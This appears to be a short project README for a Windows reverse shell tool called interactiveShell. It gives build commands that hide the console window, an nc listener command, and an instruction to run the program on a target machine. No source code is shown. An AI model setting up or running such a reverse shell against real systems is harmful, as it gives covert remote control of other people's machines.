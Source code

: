 # interactiveShell
A fully interactive TCP cmd reverse shell for Windows OS

# Setup

Compile the project
```
go build -ldflags='-H=windowsgui'
```
Setup an NC listener for your chosen port
```
nc -lvvnp PORT
```
Execute on target machine
